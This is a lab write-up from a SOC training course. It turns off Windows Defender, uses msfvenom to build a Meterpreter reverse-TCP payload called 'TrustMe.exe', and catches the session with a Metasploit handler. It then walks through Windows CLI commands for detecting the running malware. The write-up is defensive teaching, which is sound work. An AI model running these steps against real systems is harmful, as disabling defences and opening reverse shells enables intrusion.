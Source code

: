 ```yaml
---
tags:
  - linux
  - malware-analysis
  - reverse-engineering
  - live-windows-forensics
  - lab-soc-core-skills
date: Feb 07, 2024
---
```


## Windows CLI

> _Disclaimer: The content, procedures, and materials provided in this lab are strictly for educational purposes. Any information acquired is intended solely for advancing knowledge in cybersecurity. All procedures outlined in this lab, along with the VM utilized, were developed and acquired from the [SOC Core Skills](https://www.antisyphontraining.com/on-demand-courses/soc-core-skills-w-john-strand/) course instructed by [John Strand](https://www.sans.org/profiles/john-strand/). It is emphasized that the knowledge gained here will not be applied for any unauthorized or malicious activities._

> In this lab, we'll explore essential Windows CLI commands vital for SOC and security analysts. We'll create malware, execute it, and utilize tools to examine live system attacks. Hands-on experience is one of the most effective ways to learn, making this process ideal for gaining insights into real malware scenarios.

---

Let's get started.

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

In the default powershell Window that opens, lets ensure that Defender is off;

PS C:\Users\adhd> `Set-MpPreference -DisableRealtimeMonitoring $true`

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means Defender was disabled.  We run above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

![](_attachments/Pasted%20image%2020240211023639.png)

And now, open a Ubuntu command prompt:

On your Linux system, please run the following command:

`ifconfig`

![](_attachments/Pasted%20image%2020240211023701.png)

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.17.32.119.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

`sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe`

![](_attachments/Pasted%20image%2020240211023810.png)

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![](_attachments/Pasted%20image%2020240211023841.png)

Now, let's start the Metasploit Handler.  You will have to open another Ubuntu command prompt by selecting the down carrot from the upper tabs on the Windows Terminal and selecting Ubuntu.

Let's become root first!!!
`sudo su -`

Now, let's start the Metasploit handler.

root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST <YOUR LINUX IP>`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](_attachments/Pasted%20image%2020240211023904.png)

Now, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

Then, run it.

`TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session.

![](_attachments/Pasted%20image%2020240211023920.png)

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!! 

Now, let's open another Command Prompt from our Terminal:

6

Once we are in, lets start with looking at the network connections:

First, let's create a share

`net share class=C:\Tools`

Now, let's look at that share

`net view \\127.0.0.1`

Next, let's create some sessions

`net use * \\127.0.0.1\c$`


We can see those sessions with... 

`net session`

And...

`net use`

It should all look like this:

![](_attachments/Pasted%20image%2020240211023939.png)


While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try looking at our malware!

`netstat -naob`

![](_attachments/Pasted%20image%2020240211023958.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](_attachments/Pasted%20image%2020240211024018.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](_attachments/Pasted%20image%2020240211024036.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

`netstat -naob`

![](_attachments/Pasted%20image%2020240211024053.png)

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist  

`tasklist /m /fi "pid eq <PID>"`

Your PID WILL BE DIFFERENT!

![](_attachments/Pasted%20image%2020240211024111.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

`wmic process where processid=<PID> get commandline`

![](_attachments/Pasted%20image%2020240211024128.png)

Ahh!!  Now we can see that the file was launched from the commandline!  We know this because there are no options.


Let's see if we can see what spawned the process with wmic.

`wmic process get name,parentprocessid,processid`

You can also use a find command to help search for your process ID!

![](_attachments/Pasted%20image%2020240211024152.png)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the cmd.exe process.  Also note that the search we just did may turn up some other things launched by the command line as well.
